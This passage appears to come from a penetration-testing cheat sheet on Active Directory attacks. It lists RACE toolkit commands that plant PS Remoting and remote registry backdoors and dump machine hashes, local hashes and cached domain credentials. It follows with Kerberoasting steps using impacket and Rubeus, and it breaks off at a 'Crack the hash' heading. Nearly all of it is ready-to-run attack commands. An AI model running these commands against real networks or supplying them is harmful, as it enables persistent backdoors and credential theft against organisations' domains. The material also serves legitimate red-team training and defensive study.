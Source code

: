PowerShell Remoting: RACE toolkit - PS Remoting backdoor (not stable after August 2020 patches)
- On local machine for <USER>:
`Set-RemotePSRemoting -SamAccountName <USER> -Verbose`
- On remote machine for <USER> without credentials:
`Set-RemotePSRemoting -SamAccountName <USER> -ComputerName <REMOTE_COMPUTER> -Verbose`
- On remote machine, remove the permissions:
`Set-RemotePSRemoting -SamAccountName <USER> -ComputerName <REMOTE_COMPUTER> -Remove`
- Using RACE or DAMP, with admin privs on remote machine
`Add-RemoteRegBackdoor -ComputerName <REMOTE_COMPUTER> -Trustee <USER> -Verbose`
- As <USER>, retrieve machine account hash:
`Get-RemoteMachineAccountHash -ComputerName <REMOTE_COMPUTER> -Verbose`
- Retrieve local account hash:
`Get-RemoteLocalAccountHash -ComputerName <REMOTE_COMPUTER> -Verbose`
- Retrieve domain cached credentials:
`Get-RemoteCachedCredential -ComputerName <REMOTE_COMPUTER> -Verbose`


## Active Directory Privilege Escalation

See also [Windows Privilege Escalation](../system-attacks#windows-privilege-escalation)

### Kerberoasting

- see: https://github.com/drak3hft7/Cheat-Sheet---Active-Directory#kerberoast
- Note: if you have a service account (like `svc_apache`) it's possible to kerberoast
  - see PowerView command `Get-netuser username`

Retrieve TGS
  - `impacket-GetNPUsers -dc-ip <domain_controller_ip> <domain>/<user>:<password>`
  - `impacket-GetNPUsers <domain>/<user>:<password> -dc-ip <domain_controller_ip> -request`
  - Alternatives
    - From a compromised machine: `.\Rubeus.exe kerberoast`, `.\Rubeus.exe kerberoast /nowrap` or `.\Rubeus.exe kerberoast /creduser:<domain>\<username> /credpassword:<password>`
    - `impacket-GetUserSPNs <domain>/<user>:<password> -request`
      - you need to add the domain and IP to /etc/hosts to make this command work

Crack the hash
